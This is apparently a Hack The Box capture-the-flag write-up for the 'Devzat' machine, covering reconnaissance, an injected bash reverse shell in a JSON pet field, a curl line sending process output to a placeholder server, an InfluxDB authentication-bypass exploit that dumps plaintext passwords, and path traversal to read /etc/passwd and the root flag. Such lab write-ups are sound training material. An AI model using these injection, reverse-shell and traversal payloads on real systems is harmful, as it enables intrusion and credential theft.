

```bash
# Nmap 7.91 scan initiated Sun Oct 17 09:56:07 2021 as: nmap -vvv -p 22,80,8000 -sC -sV -oN initial_scan.txt 10.129.220.0
Nmap scan report for devzat.htb (10.129.220.0)
Host is up, received syn-ack (0.39s latency).
Scanned at 2021-10-17 09:56:07 +06 for 53s

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDNaY36GNxswLsvQjgdNt0oBgiJp/OExsv55LjY72WFW03eiJrOY5hbm5AjjyePPTm2N9HO7uK230THXoGWOXhrlzT3nU/g/DkQyDcFZioiE7M2eRIK2m4egM5SYGcKvXDtQqSK86ex4I31Nq6m9EVpVWphbLfvaWjRmIgOlURo+P76WgjzZzKws42mag2zIrn5oP+ODhOW/3ta289/EMYS6phUbBd0KJIWm9ciNfKA2D7kklnuUP1ZRBe2DbSvd2HV5spoLQKmtY37JEX7aYdETjDUHvTqgkWsVCZAa5qNswPEV7zFlAJTgtW8tZsjW86Q0H49M5dUPra4BEXfZ0/idJy+jpMkbfj6+VjlsvaxxvNUEVrbPBXe9SlbeXdrNla5nenpbwtWNhckUlsEZjlpv8VnHqXt99s1mfHJkgO+yF09gvVPVdglDSqMAla8d2rfaVD68RfoGQc10Af6xiohSOA8LIa0f4Yaw+PjLlcylF5APDnSjtQvHm8TnQyRaVM=
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCenH4vaESizD5ZgkV+1Yo3MJH9MfmUdKhvU+2Z2ShSSWjp1AfRmK/U/rYaFOoeKFIjo1P4s8fz3eXr3Pzk/X80=
|   256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKTxLGFW04ssWG0kheQptJmR5sHKtPI2G+zh4FVF0pBm
80/tcp   open  http    syn-ack Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     syn-ack (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|   3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDTPm8Ze7iuUlabZ99t6SWJTw3spK5GP21qE/f7FOT/P+crNvZQKLuSHughKWgZH7Tku7Nmu/WxhZwVUFDpkiDG1mSPeK6uyGpuTmncComFvD3CaldFrZCNxbQ/BbWeyNVpF9szeVTwfdgY5PNoQFQ0reSwtenV6atEA5WfrZzhSZXWuWEn+7HB9C6w1aaqikPQDQSxRArcLZY5cgjNy34ZMk7MLaWciK99/xEYuNEAbR1v0/8ItVv5pyD8QMFD+s2NwHk6eJ3hqks2F5VJeqIZL2gXvBmgvQJ8fBLb0pBN6xa1xkOAPpQkrBL0pEEqKFQsdJaIzDpCBGmEL0E/DfO6Dsyq+dmcFstxwfvNO84OmoD2UArb/PxZPaOowjE47GRHl68cDIi3ULKjKoMg2QD7zrayfc7KXP8qEO0j5Xws0nXMll6VO9Gun6k9yaXkEvrFjfLucqIErd7eLtRvDFwcfw0VdflSdmfEz/NkV8kFpXm7iopTKdcwNcqjNnS1TIs=
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=10/17%Time=616B9EDF%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 17 09:57:00 2021 -- 1 IP address (1 host up) scanned in 53.01 seconds

```

# Web Recon


# Sub Domain Enumeration
```bash
$ ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H HOST:FUZZ.devzat.htb -u http://devzat.htb/ -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://devzat.htb/
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.devzat.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 18
________________________________________________

pets                    [Status: 200, Size: 510, Words: 20, Lines: 21]
:: Progress: [4989/4989] :: Job [1/1] :: 124 req/sec :: Duration: [0:01:18] :: Errors: 0 ::

```


Add Pets Name Function


# Content Discovery
```bash
$ ffuf -w /opt/SecLists/Discovery/Web-Content/common.txt  -u http://pets.devzat.htb/FUZZ -fw 20

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://pets.devzat.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 20
________________________________________________

.git/config             [Status: 200, Size: 92, Words: 9, Lines: 6]
.git                    [Status: 301, Size: 41, Words: 3, Lines: 3]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2]
.git/logs/              [Status: 200, Size: 63, Words: 3, Lines: 5]
.git/index              [Status: 200, Size: 3847, Words: 51, Lines: 11]
build                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 40, Words: 3, Lines: 3]
:: Progress: [4685/4685] :: Job [1/1] :: 124 req/sec :: Duration: [0:00:37] :: Errors: 0 ::
```

# Reverse Shell

```http
POST /api/pet HTTP/1.1
Host: pets.devzat.htb
Content-Length: 87
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://pets.devzat.htb
Referer: http://pets.devzat.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"name":"charlie","species":"cat`bash -c 'bash -i >& /dev/tcp/10.10.16.68/9001 0>&1'`"}
```
```
ps aux|curl http://<your-server> -d @-
```

# Popping Shell as patrick 
```bash
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.220.67] 49336
bash: cannot set terminal process group (891): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
patrick@devzat:~/pets$ ^Z
zsh: suspended  nc -nlvp 9001
     
┌──(rahat㉿kali)-[~/dropbox/HackTheBox/devzat]
└─$ stty raw -echo && fg                                                          
[1]  + continued  nc -nlvp 9001

patrick@devzat:~/pets$ export TERM=xterm
patrick@devzat:~/pets$ 

```

# Internal Services
```bash
patrick@devzat:~$ ss -tunlp 
Netid               State                 Recv-Q                Send-Q                               Local Address:Port                               Peer Address:Port               Process                                         
udp                 UNCONN                0                     0                                    127.0.0.53%lo:53                                      0.0.0.0:*                                                                  
udp                 UNCONN                0                     0                                          0.0.0.0:68                                      0.0.0.0:*                                                                  
tcp                 LISTEN                0                     4096                                     127.0.0.1:5000                                    0.0.0.0:*                   users:(("petshop",pid=906,fd=3))               
tcp                 LISTEN                0                     4096                                 127.0.0.53%lo:53                                      0.0.0.0:*                                                                  
tcp                 LISTEN                0                     4096                                     127.0.0.1:8086                                    0.0.0.0:*                                                                  
tcp                 LISTEN                0                     128                                        0.0.0.0:22                                      0.0.0.0:*                                                                  
tcp                 LISTEN                0                     4096                                     127.0.0.1:8443                                    0.0.0.0:*                                                                  
tcp                 LISTEN                0                     511                                              *:80                                            *:*                                                                  
tcp                 LISTEN                0                     128                                           [::]:22                                         [::]:*                                                                  
tcp                 LISTEN                0                     4096                                             *:8000                                          *:*                   users:(("devchat",pid=907,fd=7))
```


### InfluxDB was running on port 8086 internally.

##### InfluxDB version was leaked on server response header.
```bash
patrick@devzat:~$ curl http://127.0.0.1:8086/ -i
HTTP/1.1 404 Not Found
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.7.5
Date: Sun, 17 Oct 2021 13:38:10 GMT
Content-Length: 19

404 page not found
patrick@devzat:~$ 

```

I searched in google for publicly available exploits for this InfluxDB version. and got [CVE-2019-20933](https://www.debian.org/security/2021/dsa-4823) 

> InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret)

# Port Forwarding using SSH Client
For Exploitaion InfluexDB I forwarded 8086 port into my local machine.

``` bash
ssh -i id_rsa patrick@devzat.htb -L 8086:127.0.0.1:8086
```

# Exploitation InfluxDB
``` bash
(rahat㉿kali)-[~/dropbox/HackTheBox/devzat]                                       
$ cd InfluxDB-Exploit-CVE-2019-20933                                                    
(rahat㉿kali)-[~/dropbox/HackTheBox/devzat/InfluxDB-Exploit-CVE-2019-20933]
$ ls                                                     
__main__.py  README.md  requirements.txt                                           
(rahat㉿kali)-[~/dropbox/HackTheBox/devzat/InfluxDB-Exploit-CVE-2019-20933]       
$ pip3 install -r requirements.txt  

$ python3 __main__.py

CVE-2019-20933

Insert ip host (default localhost): 
Insert port (default 8086): 
Insert influxdb user (wordlist path to bruteforce username): admin
Host vulnerable !!!
Databases list:

1) devzat
2) _internal

Insert database name (exit to close): devzat

[devzat] Insert query (exit to change db): SHOW MEASUREMENTS
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "user"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}

[devzat] Insert query (exit to change db): select * from "user" 
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
                            "charles"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}

```

```text
user: catherine
password: woBeeYareedahc7Oogeephies7Aiseci
```

Switch User `Patrick` to `Catherine` using credentials

```bash
patrick@devzat:/home$ su - catherine
Password : woBeeYareedahc7Oogeephies7Aiseci

catherine@devzat:~$ ls -l user.txt                                                                                    
-r-------- 1 catherine catherine   33 Oct 14 14:38 user.txt
```

# Port Forward
Forwarding port 8443 on local machine for identifying services.

``` bash
ssh -i id_rsa patrick@devzat.htb -L 8443:127.0.0.1:8443
```

``` bash
$ nmap -p8443 -sC -sV localhost 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 20:47 +06
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000061s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
8443/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  256 66:61:73:b4:a2:9c:b1:b7:a9:81:7a:6e:1d:5d:fc:ec (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.91%I=7%D=10/17%Time=616C3788%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.36 seconds


```


```bash
$ ssh catherine@localhost -p 8443
```
Available Commands 
```bash
admin: /commands                                                                                                                                                                                                 
[SYSTEM] Commands                                                                                                                                                                                                                     
[SYSTEM] clear - Clears your terminal                                                                                                                                                                                                 
[SYSTEM] message - Sends a private message to someone                                                                                                                                                                                 
[SYSTEM] users - Gets a list of the active users                                                                                                                                                                                      
[SYSTEM] all - Gets a list of all users who has ever connected                                                                                                                                                                        
[SYSTEM] exit - Kicks you out of the chat incase your client was bugged                                                                                                                                                               
[SYSTEM] bell - Toggles notifications when you get pinged                                                                                                                                                                             
[SYSTEM] room - Changes which room you are currently in                                                                                                                                                                               
[SYSTEM] id - Gets the hashed IP of the user                                                                                                                                                                                          
[SYSTEM] commands - Get a list of commands                                                                                                                                                                                            
[SYSTEM] nick - Change your display name                                                                                                                                                                                              
[SYSTEM] color - Change your display name color                                                                                                                                                                                       
[SYSTEM] timezone - Change how you view time                                                                                                                                                                                          
[SYSTEM] emojis - Get a list of emojis you can use                                                                                                                                                                                    
[SYSTEM] help - Get generic info about the server                                                                                                                                                                                     
[SYSTEM] tictactoe - Play tictactoe                                                                                                                                                                                                   
[SYSTEM] hangman - Play hangman                                                                                                                                                                                                       
[SYSTEM] shrug - Drops a shrug emoji                                                                                                                                                                                                  
[SYSTEM] ascii-art - Bob ross with text                                                                                                                                                                                               
[SYSTEM] example-code - Hello world!                                                                                                                                                                                                  
[SYSTEM] file - Paste a files content directly to chat [alpha] 
```
# Root FLAG
```bash
admin: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
```


```bash
admin: /file ../../etc/passwd CeilingCatStillAThingIn2021?

[SYSTEM] root❌ 0:0:root:/root:/bin/bash
[SYSTEM] daemon❌ 1:1:daemon:/usr/sbin:/usr/sbin/nologin
[SYSTEM] bin❌ 2:2:bin:/bin:/usr/sbin/nologin
[SYSTEM] sys❌ 3:3:sys:/dev:/usr/sbin/nologin
[SYSTEM] sync❌ 4:65534:sync:/bin:/bin/sync
[SYSTEM] games❌ 5:60:games:/usr/games:/usr/sbin/nologin
[SYSTEM] man❌ 6:12:man:/var/cache/man:/usr/sbin/nologin
[SYSTEM] lp❌ 7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[SYSTEM] mail❌ 8:8:mail:/var/mail:/usr/sbin/nologin
[SYSTEM] news❌ 9:9:news:/var/spool/news:/usr/sbin/nologin
[SYSTEM] uucp❌ 10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
[SYSTEM] proxy❌ 13:13:proxy:/bin:/usr/sbin/nologin
[SYSTEM] www-data❌ 33:33:www-data:/var/www:/usr/sbin/nologin
[SYSTEM] backup❌ 34:34:backup:/var/backups:/usr/sbin/nologin
[SYSTEM] list❌ 38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
[SYSTEM] irc❌ 39:39:ircd:/var/run/ircd:/usr/sbin/nologin
[SYSTEM] gnats❌ 41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
[SYSTEM] nobody❌ 65534:65534:nobody:/nonexistent:/usr/sbin/nologin
[SYSTEM] systemd-network❌ 100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
[SYSTEM] systemd-resolve❌ 101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
[SYSTEM] systemd-timesync❌ 102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
[SYSTEM] messagebus❌ 103:106::/nonexistent:/usr/sbin/nologin
[SYSTEM] syslog❌ 104:110::/home/syslog:/usr/sbin/nologin
[SYSTEM] _apt❌ 105:65534::/nonexistent:/usr/sbin/nologin
[SYSTEM] tss❌ 106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
[SYSTEM] uuidd❌ 107:112::/run/uuidd:/usr/sbin/nologin
[SYSTEM] tcpdump❌ 108:113::/nonexistent:/usr/sbin/nologin
[SYSTEM] landscape❌ 109:115::/var/lib/landscape:/usr/sbin/nologin
[SYSTEM] pollinate❌ 110:1::/var/cache/pollinate:/bin/false
[SYSTEM] sshd❌ 111:65534::/run/sshd:/usr/sbin/nologin
[SYSTEM] systemd-coredump❌ 999:999:systemd Core Dumper:/:/usr/sbin/nologin
[SYSTEM] patrick❌ 1000:1000:patrick:/home/patrick:/bin/bash
[SYSTEM] catherine❌ 1001:1001:catherine,,,:/home/catherine:/bin/bash
[SYSTEM] usbmux❌ 112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
admin: /file ../../root/root.txt CeilingCatStillAThingIn2021?
[SYSTEM] b749048f30fdafc1dfb9c9dfba6d1409
admin: 

```
